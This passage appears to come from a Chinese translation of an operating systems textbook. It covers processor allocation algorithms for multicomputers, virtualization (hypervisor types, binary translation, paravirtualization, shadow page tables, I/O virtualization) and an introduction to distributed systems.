在一台多处理机中，所有的进程都在同一个存储器中。当某个CPU完成其当前任务后，它选择一个进程并运行。理论上，所有的进程都是潜在的候选者。而在一台多计算机中，情形就大不相同了。每个节点有其自己的存储器和进程集合。CPU 1不能突然决定运行位于节点4上的一个进程，而不事先花费相当大的工作量去获得该进程。这种差别说明在多计算机上的调度较为容易，但是将进程分配到节点上的工作更为重要。下面我们将讨论这些问题。
多计算机调度与多处理机的调度有些类似，但是并不是后者的所有算法都能适用于前者。最简单的多处理机算法——维护就绪进程的一个中心链表——就不能工作，因为每个进程只能在其当前所在的CPU上运行。不过，当创建一个新进程时，存在着一个决定将其放在哪里的选择，例如，从平衡负载的考虑出发。
由于每个节点拥有自己的进程，因此可以应用任何本地调度算法。但是，仍有可能采用多处理机的群调度，因为惟一的要求是有一个初始的协议来决定哪个进程在哪个时间槽中运行，以及用于协调时间槽的起点的某种方法。
需要讨论的有关多计算机调度的内容相对较少。这是因为一旦一个进程被指定给了一个节点，就可以使用任何本地调度算法，除非正在使用群调度。不过，一旦一个进程被指定给了某个节点，就不再有什么可控制的，因此，哪个进程被指定给哪个节点的决策是很重要的。这同多处理机系统相反，在多处理机系统中所有的进程都在同一个存储器中，可以随意调度到任何CPU上运行。因此，值得考察怎样以有效的方式把进程分配到各个节点上。从事这种分配工作的算法和启发则是所谓的处理器分配算法（processor allocation algorithm）。
多年来已出现了大量的处理器（节点）分配算法。它们的差别是分别有各自的前提和目标。可知的进程属性包括CPU需求、存储器使用以及与每个其他进程的通信量等。可能的目标包括最小化由于缺少本地工作而浪费的CPU周期，最小化总的通信带宽，以及确保用户和进程公平性等。下面将讨论几个算法，以使读者了解各种可能的情况。
1.图论确定算法
有一类被广泛研究的算法用于下面这样一个系统，该系统包含已知CPU和存储器需求的进程，以及给出每对进程之间平均流量的已知矩阵。如果进程的数量大于CPU的数量k，则必须把若干个进程分配给每个CPU。其想法是以最小的网络流量完成这个分配工作。
该系统可以用一个带权图表示，每个顶点是一个进程，而每个弧代表两个进程之间的消息流。在数学上，该问题就简化为在特定的限制条件下（如每个子图对整个CPU和存储器的需求低于某些限制），寻找一个将图分割（切割）为k个互不连接的子图的方法。对于每个满足限制条件的解决方案，完全在单个子图内的弧代表了机器内部的通信，可以忽略。从一个子图通向另一个子图的弧代表网络通信。目标是找出可以使网络流量最小同时满足所有的限制条件的分割方法。作为一个例子，图8-24给出了一个有9个进程的系统，这9个进程是进程A至I，每个弧上标有两个进程之间的平均通信负载（例如，以Mbps为单位）。
在图8-24a中，我们将有进程A、E和G的图划分到节点1上，进程B、F和H划分在节点2上，而进程C、D和I划分在节点3上。整个网络流量是被切割（虚线）的弧上的流量之和，即30个单位。在图8-24b中，有一种不同的划分方法，只有28个单位的网络流量。假设该方法满足所有的存储器和CPU的限制条件，那么这个方法就是一个更好的选择，因为它需要较少的通信流量。
直观地看，我们所做的是寻找紧耦合（簇内高流量）的簇（cluster），并且与其他的簇有较少的交互（簇外低流量）。讨论这些问题的最早的论文是（Chow和Abraham，1982；Lo，1984；Stone和Bokhari，1978）等。
2.发送者发起的分布式启发算法
现在看一些分布式算法。有一个算法是这样的，当进程创建时，它就运行在创建它的节点上，除非该节点过载了。过载节点的度量可能涉及太多的进程，过大的工作集，或者其他度量。如果过载了，该节点随机选择另一个节点并询问它的负载情况（使用同样的度量）。如果被探查的节点负载低于某个阈值，就将新的进程送到该节点上（Eager等人，1986）。如果不是，则选择另一个机器探查。探查工作并不会永远进行下去。在N次探查之内，如果没有找到合适的主机，算法就终止，且进程继续在原有的机器上运行。整个算法的思想是负载较重的节点试图甩掉超额的工作，如图8-25a所示。该图描述了发送者发起的负载平衡。
Eager等人（1986）构造了一个该算法的分析排队模型（queueing model）。使用这个模型，所建立的算法表现良好而且在包括不同的阈值、传输成本以及探查限定等大范围的参数内工作稳定。
但是，应该看到在负载重的条件下，所有的机器都会持续地对其他机器进行探查，徒劳地试图找到一台愿意接收更多工作的机器。几乎没有进程能够被卸载，可是这样的尝试会带来巨大的开销。
3.接收者发起的分布式启发算法
上面所给出的算法是由一个过载的发送者发起的，它的一个互补算法是由一个轻载的接收者发起的，如图8-25b所示。在这个算法中，只要有一个进程结束，系统就检查是否有足够的工作可做。如果不是，它随机选择某台机器并要求它提供工作。如果该台机器没有可提供的工作，会接着询问第二台，然后是第三台机器。如果在N次探查之后，还是没有找到工作，该节点暂时停止询问，去做任何已经安排好的工作，而在下一个进程结束之后机器会再次进行询问。如果没有可做的工作，机器就开始空闲。在经过固定的时间间隔之后，它又开始探查。
这个算法的优点是，在关键时刻它不会对系统增加额外的负担。发送者发起的算法在机器最不能够容忍时——此时系统已是负载相当重了，做了大量的探查工作。有了接收者发起算法，当系统负载很重时，一台机器处于非充分工作状态的机会是很小的。但是，当这种情形确实发生时，它就会较容易地找到可承接的工作。当然，如果没有什么工作可做，接收者发起算法也会制造出大量的探查流量，因为所有失业的机器都在拼命地寻找工作。不过，在系统轻载时增加系统的负载要远远好于在系统过载时再增加负载。
把这两种算法组合起来是有可能的，当机器工作太多时可以试图卸掉一些工作，而在工作不多时可以尝试得到一些工作。此外，机器也许可以通过保留一份以往探查的历史记录（用以确定是否有机器经常性处于轻载或过载状态）来对随机轮询的方法进行改进。可以首先尝试这些机器中的某一台，这取决于发起者是试图卸掉工作还是获得工作。
在某些环境下，一个机构拥有多计算机系统，但事实上却并不真正需要它。一个常见的例子是，一个公司同时拥有一台电子邮件服务器、一台Web服务器、一台FTP服务器、一些电子商务服务器和其他服务器。这些服务器运行在同一个设备架上的不同计算机中，彼此之间以高速网络连接，也就是说，组成一个多计算机系统。在有些情况下，这些服务器运行在不同的机器上是因为单独的一台机器难以承受这样的负载，但是在更多其他的情况下，这些服务器不能作为进程运行在同一台机器上最重要的原因是可靠性（reliability）：现实中不能相信操作系统可以一天24小时，一年365或366天连续无故障地运行。通过把每个服务器放在不同机器上的方法，即使其中的一台服务器崩溃了，至少其他的服务器不会受到影响。虽然这样做能够达到容错的要求，但是这种解决方法太过昂贵且难以管理，因为涉及太多的机器。
那应该怎么做呢？已经有了四十多年发展历史的虚拟机技术，通常简称为虚拟化（virtualization），作为一种解决方法被提了出来，就像我们在1.7.5小节中所讨论的那样。这种技术允许一台机器中存在多台虚拟机，每一台虚拟机可能运行不同的操作系统。这种方法的好处在于，一台虚拟机上的错误不会自动地使其他虚拟机崩溃。在一个虚拟化系统中，不同的服务器可能运行在不同的虚拟机中，因此保持了多计算机系统局部性错误的模型，但是代价更低、也更易于维护。
当然，如此来联合服务器看起来就像是把所有的鸡蛋放在一个篮子里一样。如果运行所有虚拟机的服务器崩溃了，其结果比单独一台专用服务器崩溃要严重得多。但是虚拟化技术能够起作用的原因在于大多数服务器停机的原因不是因为硬件的故障，而是因为臃肿、不可靠、有漏洞的软件，特别是操作系统。使用虚拟化技术，惟一一个运行在内核态的软件是管理程序（hypervisor），它的代码量比一个完整操作系统的代码量少两个数量级，也就意味着软件中的漏洞数也会少两个数量级。
除了强大的隔离性，在虚拟机上运行软件还有其他的好处。其中之一就是减少了物理机器的数量从而节省了硬件、电源的开支以及占用更少的空间。对于一个公司，比如说亚马逊（Amazon）、雅虎（Yahoo）、微软（Microsoft）以及谷歌（Google），它们拥有成千上万的服务器运行不同的任务，减少它们数据中心对物理机器的需求意味着节省一大笔开支。举个有代表性的例子，在大公司里，不同的部门或小组想出了一个有趣的想法，然后去买一台服务器来实现它。如果想法不断产生，就需要成百上千的服务器，公司的数据中心就会扩张。把一款软件移动到已有的机器上通常会很困难，这是因为每一款软件都需要一个特定版本的操作系统，软件自身的函数库，配置文件等。使用虚拟机，每款软件都可以携带属于自己的环境。
虚拟机的另一个好处在于检查点和虚拟机的迁移（例如，在多个服务器间迁移以达到负载平衡）比在一个普通的操作系统中进行进程迁移更加容易。在后一种情况下，相当数量的进程关键状态信息都被保存在操作系统表当中，包括与打开文件、警报、信号处理函数等有关的信息。当迁移一个虚拟机的时候，所需要移动的仅仅是内存映像，因为在移动内存映像的同时所有的操作系统表也会移动。
虚拟机的另一个用途是运行那些不再被支持或不能在当前硬件上工作的操作系统（或操作系统版本）中的遗留应用程序（legacy application）。这些应用程序可以和当前的应用程序在相同的硬件上运行。事实上，支持同时运行使用不同操作系统的应用程序是赞成虚拟机技术的一个重要理由。
同时，虚拟机的一个重要应用是软件开发。一个程序员想要确保他的软件在Windows 98、Windows 2000、Windows XP、Windows Vista、多种Linux版本、FreeBSD、OpenBSD、NetBSD和Mac OS X上都可以正常运行，他不需要有一打的计算机，以及在不同的计算机上安装不同的操作系统。相反，他只需要在一台物理机上创建一些虚拟机，然后在每个虚拟机上安装不同的操作系统。当然，这个程序员可以给他的磁盘分区，然后在每个分区上安装不同的操作系统，但是这种方法太过困难。首先，不论磁盘的容量有多大，标准的PC机只支持四个主分区。其次，尽管在引导块上可以安装一个多引导程序，但要运行另一个操作系统就必须重启计算机。使用虚拟机，所有的操作系统可以同时运行，因为它们都只是美妙的进程。
我们在第1章中看到，有两种虚拟化的方法。一种管理程序（hypervisor），又称为I型管理程序（或虚拟机监控器），如图1-29a所示。实质上，它就是一个操作系统，因为它是惟一一个运行在内核态的程序。它的工作是支持真实硬件的多个副本，也称作虚拟机（virtual machine），与普通操作系统所支持的进程类似。相反，II型管理程序，如图1-29b所示，是一种完全不同的类型。它只是一个运行在诸如Windows或Linux平台上，能够“解释”机器指令集的用户程序，它也创建了一个虚拟机。我们把“解释”二字加上引号是因为通常代码块是以特殊的方式进行处理然后缓存并且直接执行从而获得性能上的提升，但是在原理上，完全解释也是可行的，虽然速度很慢。两种情况下，运行在管理程序上的操作系统都称为客户操作系统（guest operating system）。在II型管理程序的情况下，运行在硬件上的操作系统称为宿主操作系统（host operating system）。
在两种情况下，虚拟机都必须像真实机器一样工作，认识到这一点非常重要。也就是说，必须能够像真实机器那样启动虚拟机，像真实的机器那样在其上安装任意的操作系统。管理程序的任务就是提供这种错觉，并且尽量高效（不能完全解释执行）。
虚拟机有两种类型的原因与Intel 386体系结构的缺陷有关，而这些缺陷在20年间以向后兼容的名义被盲目地不断推进到新的CPU中。简单地说，每个有内核态和用户态的处理器都有一组只能在内核态执行的指令集合，比如I/O指令、改变MMU状态的指令等。Popek和Goldberg（1974）两人在他们的经典虚拟化工作中称这些指令为敏感指令（sensitive instruction）。还有一些指令如果在用户态下执行会引起陷入。Popek和Goldberg称它们是特权指令（privileged instruction）。在他们的论文中首次论述指出，当且仅当敏感指令是特权指令的子集时，机器才是可虚拟化的。简单地说，如果你想做一些在用户态下不能做的工作，硬件应该陷入。IBM/370具有这种特性，但是与它不同，386体系结构不具有这种特性。有一些敏感的386指令如果在用户态下执行就会被忽略。举例来说，POPF指令替换标志寄存器，会改变允许/禁止中断的标志位。但是在用户态下，这个标志位不被改变。所以，386体系结构和它的后代都是不可虚拟化的，也就是说它们不能支持I型管理程序。
事实上，情况比上面描述的还要更糟糕一些。除了某些指令在用户态不能陷入之外，还有一些指令可以在用户态读取敏感状态而不引起陷入。比如，在Pentium处理器上，一个程序可以读取代码段选择子（selector）的值从而判断它是运行在用户态还是内核态上。如果一个操作系统做同样的事情，然后发现它运行在用户态，那么就可能据此作出不正确的判断。
从2005年开始，Intel和AMD公司在它们的处理器上引进了虚拟化技术，从而使问题得到了解决。在Intel Core 2CPU上，这种技术称为VT（Virtualization Technology）。在AMD Pacific CPU上，这种技术称为SVM（Secure Virtual Machine）。在下文里，我们一般使用VT这个词来代表。它们的灵感都来自于IBM VM/370，但是也有一些细微的不同之处。基本的思想是创建容器使得虚拟机可以在其内运行。当一个客户操作系统在一个容器内启动，它将继续运行直到它引发了异常而陷入到管理程序。例如，执行一条I/O指令。陷入操作由管理程序通过硬件位图集来管理。有了这些扩展，经典的“陷入-仿真”类型的虚拟化方法才成为可能。
可虚拟化是一个重要的问题，所以让我们来更仔细地研究一下。在图8-26中，我们可以看到一个支持一台虚拟机的I型管理程序。像所有的I型管理程序一样，它在裸机上运行。虚拟机在用户态以用户进程的身份运行，因此，它不允许执行敏感指令。虚拟机内运行着一个客户操作系统，该客户操作系统认为自己是运行在内核态的，但是实际上它是运行在用户态的。我们把这种状态称为虚拟内核态（virtual kernel mode）。虚拟机内还运行着用户进程，这些进程认为自己是运行在用户态的（事实上也正是如此）。
当操作系统（认为自己运行在内核态）执行一条敏感指令（只在内核态下可以执行）的时候会发生什么事情呢？在不支持VT技术的处理器上，指令失效并且操作系统通常情况下会崩溃。这意味着虚拟化是不可行的。有人争辩说所有在用户态执行的敏感指令都应该陷入，但那不是386和它的non-VT后代们的工作模式。
在支持VT技术的处理器上，当客户操作系统运行一条敏感指令时，发生到内核的陷入，如图8-26所示。管理程序分析指令，查看它是来自于虚拟机中的客户操作系统还是来自于虚拟机中的用户程序。如果是前一种情况，管理程序调度将要执行的指令；如果是后一种情况，它仿真面对运行在用户态的敏感指令时真实硬件的行为。如果虚拟机不支持VT技术，指令通常会被忽略；如果虚拟机支持VT技术，它陷入到虚拟机的客户操作系统中。
当采用VT技术的时候，建立一个虚拟机系统相对比较直接，但是在VT技术出现之前，人们是怎么做的呢？很明显，在一台虚拟机上运行完整的操作系统是不可行的，因为（一些）敏感指令会被忽略掉，从而导致系统崩溃。于是人们发明了称为II型管理程序的替代品，如图1-29b所示。最早的一代产品是VMware（Adams和Agesen，2006；以及Waldspurger，2002），它是斯坦福大学（Bugnion等人，1997）DISCO研究项目的发展成果。VMware在Windows或Linux的宿主操作系统上作为普通用户程序运行。当它第一次运行的时候，它就像是一个新启动的计算机，试图在光驱中寻找含有操作系统的光盘。然后通过运行光盘上的安装程序，在它的虚拟磁盘（实际上就是Windows或Linux文件）上安装操作系统。一旦在虚拟磁盘上安装好了客户操作系统，虚拟机就可以运行了。
现在让我们来仔细研究VMware是如何工作的。当运行一个Pentium二进制文件的时候，这个二进制文件可能来自于安装光盘或虚拟磁盘，VMware首先浏览代码段以寻找基本块（basic block）。所谓基本块，是指以jump指令、call指令、trap指令或其他改变控制流的指令结束的可顺序运行的指令序列。根据定义，除了基本块的最后一条指令，基本块内不会含有其他改变程序计数器的指令。检查基本块是为了找出该基本块中是否含有敏感指令（见Popek和Goldberg的论述）。如果基本块中含有敏感指令，每条敏感指令被替换成处理相应情况的VMware过程调用。基本块的最后一条指令也被VMware的过程调用所替代。
上述操作完成之后，基本块在VMware中缓存并执行。在VMware中，不含任何敏感指令基本块的运行与它在裸机上的运行完全相同——因为它就是在裸机上运行的。通过这种方式找出、仿真敏感指令。这种技术称为二进制翻译（binary translation）。
基本块执行结束之后，控制返回到VMware，它会定位下一个基本块的位置。如果下一个基本块已经翻译完毕，它就可以被立刻执行。如果还没有翻译完毕，那么依次进行翻译、缓存、执行。最后，大多数程序被缓存并且接近全速的执行。很多优化方法得到了运用，例如，如果一个基本块跳转或调用另一个基本块，最后一条指令被一条跳转或调用已翻译好的基本块的指令所代替，从而节省了寻找后续基本块的开销。同样，在用户程序中不需要替换掉敏感指令；因为硬件会直接忽略它们。
讲到这里，即使在不可虚拟化的硬件上，II型管理程序也能正常工作的原因就已经很清楚了：所有的敏感指令被仿真这些指令的过程调用所替代。客户操作系统发射的敏感指令不会被真正的硬件执行。它们转换成了对管理程序的调用，而这些调用仿真了那些敏感指令。
有人可能会天真地认为支持VT技术的处理器在性能上会胜过II型管理程序所使用的软件技术，但是测量结果显示情况并不是这么简单（Adams和Agesen，2006）。其结果显示，支持VT技术的硬件使用陷入——仿真的方法会引起太多的陷入，而在现代硬件上，陷入的代价是非常昂贵的，它们会清空处理器内的缓存、TLB和分支预测表。相反，当可执行程序中的敏感指令被VMware过程调用所替代，就不会招致这些切换开销。正如Adams和Agesen所指出的，根据工作负载的不同，软件有的时候会击败硬件。由于这个原因，一些I型管理程序出于对性能的考虑会进行二进制翻译，尽管即使不进行转换，运行于其上的软件也可以正确运行。
运行在I型和II型管理程序之上的都是没有修改过的客户操作系统，但是这两类管理程序为了获得合理的性能都备受煎熬。另一个逐渐开始流行起来的处理方法是更改客户操作系统的源代码，从而略过敏感指令的执行，转而调用管理程序调用。事实上，对客户操作系统来说就像是用户程序调用操作系统（管理程序）系统调用一样。当采用这种方法时，管理程序必须定义由过程调用集合组成的接口以供客户操作系统使用。这个过程调用集合实际上形成了API（应用程序编程接口），尽管这个接口是供客户操作系统使用，而不是应用程序。
再进一步，从操作系统中移除所有的敏感指令，只让操作系统调用管理程序调用（hypervisor call）来获得诸如I/O操作等系统服务，通过这种方式我们就已经把管理程序变成了一个微内核，如图1-26所示。一些或全部敏感指令有意移除的客户操作系统称为准虚拟化的（paravirtualized）（Barham等人，2003；Whitaker等人，2002）。仿真特殊的机器指令是一件让人厌倦的、耗时的工作。它需要调用管理程序，然后仿真复杂指令的精确语义。让客户操作系统直接调用管理程序（或者微内核）完成I/O操作等任务会更好。之前的管理程序都选择模拟完整的计算机，其主要原因在于客户操作系统的源代码不可获得（如Windows）、或源代码种类太多样（如Linux）。也许在将来，管理程序/微内核的API接口可以标准化，然后后续的操作系统都会调用该API接口而不是执行敏感指令。这样的做法将使得虚拟机技术更容易被支持和使用。
全虚拟化和准虚拟化之间的区别如图8-27所示。在这里，我们有两台虚拟机运行在支持VT技术的硬件上。左边，客户操作系统是一个没有经过修改的Windows版本。当执行敏感指令的时候，硬件陷入到管理程序，由管理程序仿真执行它随后返回。右边，客户操作系统是一个经过修改的Linux版本，其中不含敏感指令。当它需要进行I/O操作或修改重要内部寄存器（如指向页表的寄存器）时，它调用管理程序例程来完成这些工作，就像在标准Linux系统中应用程序调用操作系统系统调用一样。
如图8-27所示，管理程序被一条虚线分成两个部分。而在现实中，只有一个程序在硬件上运行。它的一部分用来解释陷入的敏感指令，这种情况下，请参照Windows一边。另一部分用来执行管理程序例程。在图8-27中，后一部分被标记为“微内核”。如果管理程序只是用来运行准虚拟化的客户操作系统，就不需要对敏感指令进行仿真，这样，我们就获得了一个真正的微内核，这个微内核只提供最基本的服务，诸如进程分派、管理MMU等。I型管理程序和微内核之间的界限越来越模糊，当管理程序获得越来越多的功能和例程时，这个界限变得更加不清晰。这个主题是有争议的，但是这一点越来越明确：以内核态运行在硬件上的程序应当短小、可靠，由数千行代码而不是数百万行代码组成。这个话题已经经过很多学者的讨论（Hand等人，2005；Heiser等人，2006；Hohmuth等人，2004；Roscoe等人，2007）。
对客户操作系统进行准虚拟化引起了很多问题。第一，如果所有的敏感指令都被管理程序例程所代替，操作系统如何在物理机器上运行呢？毕竟，硬件不可能理解管理程序例程。第二，如果市场上有很多种管理程序，例如Vmware、剑桥大学开发的开源项目Xen、微软的Viridian，这些管理程序的API接口不同，应该怎么办呢?怎样修改内核使它能够在所有的管理程序上运行？
Amsden等人（2006）提出了一个解决方案。在他们的模型当中，当内核需要执行一些敏感操作时会转而调用特殊的例程。这些特殊的例程，称作VMI（虚拟机接口），形成的低层与硬件或管理程序进行交互。这些例程被设计得通用化，不依赖于硬件或特定的管理程序。
这种技术的一个示例如图8-28所示，这是一个准虚拟化的Linux版本，称为VMI Linux（VMIL）。当VMI Linux运行在硬件上的时候，它链接到一个发射敏感指令来完成工作的函数库，如图8-28a所示。当它运行在管理程序上，如VMware或Xen，客户操作系统链接到另一个函数库，该函数库提供对下层管理程序的适当（或不同）例程调用。通过这种方式，操作系统的内核保持了可移植性和高效性，可以适应不同的管理程序。
关于虚拟机接口还有很多其他的建议。其中比较流行的一个是paravirt ops。它的主要思想与我们上面所介绍的相似，但是在细节上有所不同。
现在我们已经知道了如何虚拟化处理器。但是一个计算机系统不止是一个处理器。它还有内存和I/O设备。它们也需要虚拟化。让我们来看看它们是如何实现的。
几乎全部的现代操作系统都支持虚拟内存，即从虚拟地址空间到物理地址空间的页面映射。这个映射由（多级）页表所定义。通过操作系统设置处理器中的控制寄存器，使之指向顶级页表，从而动态设置页面映射。虚拟化技术使得内存管理更加复杂。
例如，一台虚拟机正在运行，其中的客户操作系统希望将它的虚拟页面7、4、3分别映射到物理页面10、11、12。它建立包含这种映射关系的页表，加载指向顶级页表的硬件寄存器。这条指令是敏感指令。在支持VT技术的处理器上，将会引起陷入；在VMware管理程序上，它将会调用VMware例程；在准虚拟化的客户操作系统中，它将会调用管理程序调用。简单地讲，我们假设它陷入到了I型管理程序中，但实际上在上述三种情况下，问题都是相同的。
那么管理程序会怎么做呢？一种解决办法是把物理页面10、11、12分配给这台虚拟机，然后建立真实的页表使之分别映射到该虚拟机的虚拟页面7、4、3，随后使用这些页面。到目前为止还没有问题。现在，假设第二台虚拟机启动，希望把它的虚拟页面4、5、6分别映射到物理页面10、11、12，并加载指向页表的控制寄存器。管理程序捕捉到了这次陷入，但是它会做什么呢?它不能进行这次映射，因为物理页面10、11、12正在使用。它可以找到其他空闲页面，比如说20、21、22并使用它们，但是在此之前，它需要创建一个新的页表完成虚拟页面4、5、6到物理页面20、21、22的映射。如果还有其他的虚拟机启动，继续请求使用物理页面10、11、12，管理程序也必须为它创建一个映射。总之，管理程序必须为每一台虚拟机创建一个影子页表（shadow page table），用以实现该虚拟机使用的虚拟页面到管理程序分配给它的物理页面之间的映射。
但更糟糕的是，每次客户操作系统改变它的页表，管理程序必须相应地改变其影子页表。例如，如果客户操作系统将虚拟页面7重新映射到它所认为的物理页面200（不再是物理页面10了）。管理程序必须了解这种改变。问题是客户操作系统只需要写内存就可以完成这种改变。由于不需要执行敏感指令，管理程序根本就不知道这种改变，所以就不会更新它的由实际硬件使用的影子页表。
一种可能的（也很笨拙的）解决方式是，管理程序监视客户虚拟内存中保存顶级页表的内存页。只要客户操作系统试图加载指向该内存页的硬件寄存器，管理程序就能获得相应的信息，因为这条加载指令是敏感指令，它会引发陷入。这时，管理程序建立一个影子页表，把顶级页表和顶级页表所指向的二级页表设置成只读。接下来客户操作系统只要试图修改它们就会发生缺页异常，然后把控制交给管理程序，由管理程序来分析指令序列，了解客户操作系统到底要执行什么样的操作，并据此更新影子页表。这种方法并不好，但它在理论上是可行的。
在这方面，将来的VT技术可以通过硬件实现两级映射从而提供一些帮助。硬件首先把虚拟页面映射成客户操作系统所认为的“物理页面”，然后再把它（硬件仍然认为它是虚拟页面）映射到物理地址空间，这样做不会引起陷入。通过这种方式，页表不必再被标记成只读，而管理程序只需要提供从客户的虚拟空间到物理空间的映射。当虚拟机切换时，管理程序改变相应的映射，这与普通操作系统中进程切换时系统所做的改变是相同的。
在准虚拟化的操作系统中，情况是不同的。这时，准虚拟化的客户操作系统知道当它结束的时候需要更改进程页表，此时它需要通知管理程序。所以，它首先彻底改变页表，然后调用管理程序例程来通知管理程序使用新的页表。这样，当且仅当全部的内容被更新的时候才会进行一次管理例程调用，而不必每次更新页表的时候都引发一次保护故障，很明显，效率会高很多。
了解了处理器和内存的虚拟化，下面我们来研究一下I/O的虚拟化。客户操作系统在启动的时候会探测硬件以找出当前系统中都连接了哪种类型的I/O设备。这些探测会陷入到管理程序。那么管理程序会怎么做呢？一种方法是向客户操作系统报告设备信息，如磁盘、打印机等真实存在的硬件。于是客户操作系统加载相应的设备驱动程序以使用这些设备。当设备驱动程序试图进行I/O操作时，它们会读写设备的硬件寄存器。这些指令是敏感指令，将会陷入到管理程序，管理程序根据需要从硬件中读取或向硬件中写入所需的数据。
但是，现在我们有一个问题。每一个客户操作系统都认为它拥有全部的磁盘分区，而同时实际上虚拟机的数量比磁盘分区数多得多（甚至可能是几百个）。常用的解决方法是管理程序在物理磁盘上为每一个虚拟机创建一个文件或区域作为它的物理磁盘。由于客户操作系统试图控制真正的物理磁盘（如管理程序所见），它会把需要访问的磁盘块数转换成相对于文件或区域的偏移量，从而完成I/O操作。
客户操作系统正在使用的磁盘也许跟真实的磁盘不同。例如，如果真实的磁盘是带有新接口的某些新品牌、高性能的磁盘（或RAID），管理程序会告知客户操作系统它拥有的是一个旧的IDE磁盘，让客户操作系统安装IDE磁盘驱动。当驱动程序发出一个IDE磁盘命令时，管理程序将它们转换成新磁盘驱动的命令。当硬件升级、软件不做改动时，可以使用这种技术。事实上，虚拟机对硬件设备重映射的能力证实VM/370流行的原因：公司想要买更新更快的硬件，但是不想更改它们的软件。虚拟技术使这种想法成为可能。
另一个必须解决的I/O问题是DMA技术的应用。DMA技术使用的是绝对物理内存地址。我们希望，管理程序在DMA操作开始之前介入，并完成地址的转换。不过，带有I/O MMU的硬件出现了，它按照MMU虚拟内存的方式对I/O进行虚拟化。这个硬件解决了DMA引起的问题。
另一种处理I/O操作的方法是让其中一个虚拟机运行标准的操作系统，并把其他虚拟机的I/O请求全部反射给它去处理。当准虚拟化技术得到运用之后，这种方法被完善了，发送到管理程序的命令只需表明客户操作系统需要什么（如从磁盘1中读取第1403块），而不必发送一系列写磁盘寄存器的命令，在这种情况下，管理程序扮演了福尔摩斯的角色，指出客户操作系统想要做什么事情。Xen使用这种方法处理I/O操作，其中完成I/O操作的虚拟机称为domain0。
在I/O设备虚拟化方面，II型管理程序相对于I型管理程序所具备的优势在于：宿主操作系统包含了所有连接到计算机上的所有怪异的I/O设备的驱动程序。当应用程序试图访问一个不常见的I/O设备时，翻译的代码可以调用已存在的驱动程序来完成相应的工作。但是对I型管理程序来说，它或者自身包含相应的驱动程序，或者调用domain0中的驱动程序，后一种情况与宿主操作系统很相似。随着虚拟技术的成熟，将来的硬件也许会让应用程序以一种安全的方式直接访问硬件，这意味着驱动程序可以直接链接到应用程序代码或者作为独立的用户空间服务，从而解决I/O虚拟化方面的问题。
虚拟机为长期困扰用户（特别是使用开源软件的用户）的问题提供了一种有趣的解决方案：如何安装新的应用程序。问题在于很多应用程序依赖于其他的程序或函数库，而这些程序和函数库本身又依赖于其他的软件包等等。而且，对特定版本的编译器、脚本语言或操作系统也可能有依赖关系。
使用虚拟机技术，一个软件开发人员能够仔细地创建一个虚拟机，装入所需的操作系统、编译器、函数库和应用程序代码，组成一个整体来运行。这个虚拟机映像可以被放到光盘（CD-ROM）或网站上以供用户安装或下载。这种方法意味着只有软件开发者需要了解所有的依赖关系。客户得到的是可以正常工作的完整的程序包，独立于他们正在使用的操作系统、各类软件、已安装的程序包和函数库。这些被包装好的虚拟机通常叫做虚拟工具（virtual appliance）。
虚拟机与多核技术的结合打开了一个全新的世界，在这个世界里可以在软件中指定可用的处理机数量。例如，如果有四个可用的核，每个核最多可以支持八个虚拟机，若有需要，一个单独的（桌面）处理器就可以配置成32结点的多机系统，但是根据软件的需求，它可以有更少的处理器。以前，对于一个软件设计者来说，先选择所需的处理器数量，再据此编写代码是不可能的。这显然代表了计算技术发展的新阶段。
虽然还不普遍，但是在虚拟机之间是可能实现共享内存的。所需要完成的工作就是将物理页面映射到多个虚拟机的地址空间当中。如果能够做到的话，一台计算机就成为了一个虚拟的多处理机。由于多核芯片上所有的核共享内存，因此一个四核芯片能够很容易地按照需要配置成32结点的多处理机或多计算机系统。
多核、虚拟机、管理程序和微内核的结合将从根本上改变人们对计算机系统的认知。现在的软件不能应对这些想法：程序员确定需要多少个处理机，这些处理机是应该组成一个多计算机系统还是一个多处理机，以及在某种情况下最少的内核数量需求到底是多少。将来的软件将处理这些问题。
大部分软件是基于每个处理器授权的。换句话说，当你购买了一款程序时，你只有权在一个处理器上运行它。这个合同允许你在同一台物理机上的多个虚拟机中运行该软件吗？在某种程度上，很多软件商不知道应该怎么办。
如果某些公司获得授权可以同时在n台机器上运行软件，问题就会更糟糕，特别是当虚拟机按照需要不断产生和消亡的时候。
在某些情况下，软件商在许可证（license）中加入明确的条款，禁止在虚拟机或未授权的虚拟机中使用该软件。这些限制在法庭上是否有效，以及用户对此的反应还有待考察。
到此为止有关多处理机、多计算机和虚拟机的讨论就结束了，现在应该转向最后一种多处理机系统，即分布式系统（distributed system）。这些系统与多计算机类似，每个节点都有自己的私有存储器，整个系统中没有共享的物理存储器。但是，分布式系统与多计算机相比，耦合更加松散。
首先，一台多计算机的节点通常有CPU、RAM、网卡，可能还有用于分页的硬盘。与之相反，分布式系统中的每个节点都是一台完整的计算机，带有全部的外部设备。其次，一台多计算机的所有节点一般就在一个房间里，这样它们可以通过专门的高速网络通信，而分布式系统中的节点则可能分散在全世界范围内。最后，一台多计算机的所有节点运行同样的操作系统，共享一个文件系统，并处在一个共同的管理之下，而一个分布式系统的节点可以运行不同的操作系统，每个节点有自己的文件系统，并且处在不同的管理之下。一个典型的多计算机的例子如一个公司或一所大学的一个房间中用于诸如药物建模等工作的512个节点，而一个典型的分布式系统包括了通过Internet松散协作的上千台机器。在图8-29中，对多处理机、多计算机和分布式系统就上述各点进行了比较。
通过这个表可以清楚地看到，多计算机处于中间位置。于是一个有趣的问题就是：“多计算机是更像多处理机还是更像分布式系统？”很奇怪，答案取决于你的角度。从技术角度来看，多处理机有共享存储器而其他两类没有。这个差别导致了不同的程序设计模式和不同的思考方式。但是，从应用角度来看，多处理机和多计算机都不过是在机房中的大设备机架（rack）罢了，而在全部依靠Internet连接计算机的分布式系统中显然通信要多于计算，并且以不同的方式使用着。
在某种程度上，分布式系统中计算机的松散耦合既是优点又是缺点。它之所以是优点，是因为这些计算机可用在各种类型的应用之中，但它也是缺点，因为它由于缺少共同的底层模型而使得这些应用程序很难编程实现。
